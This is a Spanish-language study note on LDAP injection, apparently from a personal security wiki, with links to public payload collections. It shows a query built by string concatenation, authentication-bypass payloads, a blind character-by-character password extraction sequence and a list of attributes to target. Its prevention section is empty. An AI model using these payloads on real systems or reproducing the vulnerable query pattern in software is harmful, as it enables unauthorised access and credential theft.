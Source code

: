 ### ¿Qué es LDAP Injection?
##### ¿Qué es LDAP?
LDAP (Lightweight Directory Access Protocol) es un protocolo de la capa de aplicación que permite el acceso a un servicio de directorio ordenado y distribuido para consultar información en una red. Normalmente almacena información de autenticación, y se usa para autenticarse, aunque puede contener más datos como el contacto, ubicación de ciertos recursos de red, permisos, certificados... Dicho esto:
##### ¿Qué es LDAPi?
LDAP injection es una vulnerabilidad que acontece cuando una aplicación utiliza user-input para confeccionar consultas LDAP. Esto da al atacante control sobre el directorio LDAP, donde puede consultar y modificar información crítica como contraseñas.
Las aplicaciones que usan LDAP tramitan las búsquedas mediante queries que envían al servidor a través de la aplicación front-end, por ejemplo, la información proporcionada por un usuario en un formulario podría enviar una consulta así:
```LDAP
find( " (&( cn="+ userid +" userPassword="+ password +" ) )
```
En este hipotético, y de forma similar a [[SQL Injection]], podemos explotar una falta de sanitización en los user input modificando la consulta inyectando payloads a través del formulario. 
Por ejemplo, la primera parte de esta consulta se evalúa como `true`, ignorando la segunda parte, que pide la contraseña.
```
find( " (&(cn=* )(cn=*))(|(cn=*)( userPassword="+ password +"))")
```
##### Metodología
**Bypass de autenticación**: Explota operadores lógicos en la consulta con el fin de bypassear autenticación.
```
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

```
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

**Blind explotation**: Se pretende extraer información sensible como contraseñas:
```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

`&` operador lógico AND
`(sn=administrator)` busca entradas donde el valor de `sn`(surname) equivale a administrator. 
`(password=X*)` busca entradas donde la contraseña comienza por X

**Atributos default**: Se pueden usar en una inyección `*)(AQUÍ=*`
```
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```
### Cheats
[Scripts](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection#scripts)
### Prevención
### Fuentes
[PATT](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection#methodology)
https://www.redeszone.net/tutoriales/servidores/que-es-ldap-funcionamiento/#538404-que-es-ldap-y-para-que-sirve
https://www.blackduck.com/glossary/what-is-ldap-injection.html
https://www.imperva.com/learn/application-security/ldap-injection/
https://portswigger.net/kb/issues/00100500_ldap-injection
https://owasp.org/www-community/attacks/LDAP_Injection